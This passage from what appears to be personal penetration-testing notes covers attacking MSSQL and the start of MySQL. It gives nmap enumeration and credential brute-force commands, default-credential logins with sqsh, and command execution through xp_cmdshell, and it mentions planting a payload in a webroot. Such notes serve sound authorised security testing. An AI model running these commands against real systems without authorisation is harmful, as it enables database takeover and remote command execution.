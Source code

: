             ### **Checks**
            
            - [ ]  Try default credentials "`sa`:`password`"
            - [ ]  Brute force creds
            - [ ]  Check database content for new passwords
            - [ ]  Check version for exploits
            - [ ]  RCE
                - [ ]  through `xp_cmdshell` functionality
                - [ ]  through injecting payload in output file, placing it in webroot and triggering it through webapp
            
            ### **Commands**
            
            Nmap:
            
            ```bash
            nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)' $ip -o 1433_nmap_mssql
            nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
            ```
            
            Credential brute force:
            
            ```bash
            nmap -p 1433 --script ms-sql-brute --script-args passdb=/usr/share/seclists/Passwords/darkweb2017-top1000.txt $ip
            nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
            ```
            
            Manually logging in and gaining shell:
            
            ```bash
            #login
            sqsh -S $ip -U sa -P password
            sqsh -S $ip:27900 -U sa -P password
            #execute commands
            xp_cmdshell 'date'
            go
            ```
            
        - **3306 - MySQL**
            
            @3306-MySQL 📎 This section links to my private notes — similar structure to HackTricks, but customized.
            
            ### **Checks**
            
            - [ ]  Try default credentials "root":""
            - [ ]  Brute force credentials
            - [ ]  Check database content for new passwords
            - [ ]  Check version for exploits
            
            ### **Commands**
            